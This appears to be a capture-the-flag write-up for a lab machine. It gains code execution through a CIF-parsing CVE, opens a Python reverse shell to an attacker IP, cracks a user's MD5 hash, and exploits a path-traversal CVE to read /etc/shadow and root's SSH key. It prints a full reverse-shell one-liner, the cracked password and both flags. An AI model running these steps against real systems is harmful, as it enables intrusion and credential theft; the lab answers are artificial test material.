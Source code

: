 ### Stuff to learn in this box 
	1. CIF files_ 
	2. Enumeration with `netstat` (`ss`) 
	3. Port Forewarding

Do an `nmap` scan `nmap -A $box`
We found a webserver on port **5000**

Let's see what's there
![[Pasted image 20250310091417.png]]
We a paga that analyze **[CIF](https://en.wikipedia.org/wiki/Crystallographic_Information_File)** files, let's register an account, and login

![[Pasted image 20250310091455.png]]
We found an upload functionality for CIF files only, we also have an example there

Search for exploit for CIF file, we found this **[CVE-2024-23346](https://github.com/9carlo6/CVE-2024-23346)** 
Follow the instruction in the GitHub exploit page

Test for connection with `curl` in the system function using our IP:
![[Pasted image 20250310111649.png]]

Establish an HTTP python server on your machine, then **upload** the file and **view** it:
![[Pasted image 20250310112012.png]]
We have a connection which means we've got an **RCE**

Create a file and put a python reverse shell in it (I tried a lot of reverse shells only python worked)
Also sounds like we have to put our reverse shell in a different file then call it from the CIF file
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.34",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
Don't forget to change your IP and port

Then change the `vuln.cif` file to grab the file we put the reverse shell in `pwn`, then use `python3`  ![[Screenshot 2025-03-10 112439.png]]

Now open a `netcat` listener on the port you chose, and a python server at the same time
Then upload the file and view it
![[Pasted image 20250310111410.png]]
Cool! we've got a reverse shell!

Use `find` to search for any .db files, then use `sqlite3` to get in the database then retrieve all users, as shown in the screenshot below
![[Pasted image 20250310095223.png]]
We've found a lot of users, we can crack them all but what we need is Rosa's password, I'm pretty sure the root password is uncrackable.

Why Rosa? if we cat out the /etc/passwd file we'll see that it's the only user which has a shell of `/bin/bash`

Sounds like MD5 hashing, let's crack it using `hashcat` 
`hashcat -m 0 '63ed86ee9f624c7b14f1d4f43dc251a5' seclists/Passwords/rockyou.txt` 
![[Screenshot 2025-03-10 095551.png]]
**unicorniosrosados** is our password for **rosa**

Let's `ssh` using that password with rosa
![[Pasted image 20250310100156.png]]
We got access to rosa's shell

Cat out the user flag
![[Pasted image 20250310100234.png]]

**User Flag : 1b4a4bdd9b5961e6326a4e125007a679**

Let's do `ss -lntp` to check if there's any other ports on this box that didn't show up with `nmap`
![[Screenshot 2025-03-10 114436.png]]
There is , it's listening of the localhost on port 8080, since I have Burp suite listening on that port 

Let's forward the connection to another port e.g 8081, on your machine type
`ssh -L 8081:127.0.0.1:8080 rosa@10.10.11.38`, the enter Rosa's password
![[Screenshot 2025-03-10 115549.png]]

Now try to get to the localhost on port 8081![[Pasted image 20250310115901.png]]
Lots of useless stuff there

Open the network tab by clicking on F12, look for anything abnormal, we found this,
![[Screenshot 2025-03-11 222156.png]]
What is that? search about it online, And we found this **[CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC)**, Download it and run it
We don't actually need to transfer it to the target machine because it interacts with our localhost since we forwarded it there

When we run the exploit, we get `404`![[Pasted image 20250311224416.png]]

By taking a look at the exploit, it's trying to get `/etc/passwd` file within the **/static** directory on the monitoring page on `localhost:8081`, But when we look at the source code of that page we don't see any **/static** dir instead we see **/assets** dir
![[Screenshot 2025-03-11 224455.png]]

So let's modify the **payload** variable to`/assets/` instead of `/static/` and try again
![[Screenshot 2025-03-11 224130.png]]

Run the exploit again ![[Pasted image 20250311224905.png]]
Cool! we got it!! But we don't need `/etc/passwd` file, we already can read it by Rosa user, we need `/etc/shadow` file that contains the root hash password

So let's modify the **File** variable from `etc/passwd` to `etc/shadow`, then run it again
![[Pasted image 20250311225256.png]]
Cool! we got it even though it's unreadable for anyone except root, if we try to crack the root password we probably can't do it, it's mostly impossible to be cracked, also we ignored it before!

What if we try to read the root flag immediately!![[Pasted image 20250311230431.png]]
Ooh! we did it! but it doesn't actually count as a Privilege Escalation

We can look for a root SSH key as we know the file name mostly is **id_rsa** or **authorized_keys**
![[Pasted image 20250311230843.png]]
We found both, even better!! 

Let's copy the **id_rsa** to a file in our machine and change it's permission to **600**
![[Screenshot 2025-03-11 231738.png]]

Now let's `ssh` to **root** using the **id_rsa** file ![[Pasted image 20250311232159.png]]
Cool!! Now we are root! We did a Privilege Escalation! that one definitely counts hah

Let's cat out the root flag![[Pasted image 20250311232301.png]]

**Root Flag : 38f323c4bdc0a1c5b2f50af766c52269**

**Congrats! You pwned the machine successfully!**
![[Pasted image 20250729102347.png]]